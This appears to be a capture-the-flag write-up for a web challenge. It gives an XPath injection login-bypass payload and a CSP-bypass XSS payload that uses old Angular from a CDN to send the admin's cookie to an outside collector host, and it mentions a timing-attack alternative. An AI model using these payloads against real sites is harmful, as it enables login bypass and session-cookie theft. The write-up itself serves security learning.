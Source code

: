# Quick write up

## Step 1: Access the administration area
A XPath injection is possible in the login form.
One possible solution to exploit it is:
```
Username: ' or '1'='1
Password: ' or '1'='1' and position()<='1
```

## Step 2: Get the super admin cookie
### The intended way
The administration area display userg agent of the frontpage visitors.
You can inject stuff in it but it does not seem te be executed. This is due to
the [Content Security Policy](http://www.w3.org/TR/CSP2/) header.

A quick search finds the write up of a similar challenge: [H5SC Minichallenge 3: "Sh*t, it's CSP!"](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-"Sh*t,-it's-CSP!"). We know how to execute code thanks to these insecure CDNs.

Choose a vector in the write up and exploit it. One solution can be:
```html
<script src="http://ajax.googleapis.com/ajax/libs/jquery/2.1.3/jquery.min.js"></script>
<script src="http://ajax.googleapis.com/ajax/libs/angularjs/1.1.3/angular.min.js"></script><div ng-app ng-csp id=p ng-click="$event.view.console.log($event.view.document.cookie);$event.view.console.log($event.view.jQuery.ajax('http://inspectb.in/413aabba?'+$event.view.document.cookie))"><script async src=//ajax.googleapis.com/jsapi?callback=p.click></script>
```

### The hard way
Exploit a timing attack when the cookie content is compared to get the full cookie.
Some references:
 * [ircmaxell's blog](https://blog.ircmaxell.com/2014/11/its-all-about-time.html)
 * [Crosby, Wallach and Riedi -- Opportunities and Limits of Remote
Timing Attacks](http://www.cs.rice.edu/~dwallach/pub/crosby-timing2009.pdf)
 * [Nanosecond Scale Remote Timing Attacks On PHP Applications: Time To Take Them Seriously?](http://blog.astrumfutura.com/2010/10/nanosecond-scale-remote-timing-attacks-on-php-applications-time-to-take-them-seriously/)

TL;DR: I was near to impossible to attack the application this way accross the Internet.
You could probably pull it off using a VPS in the same datacenter that the one hosting
the challenge.
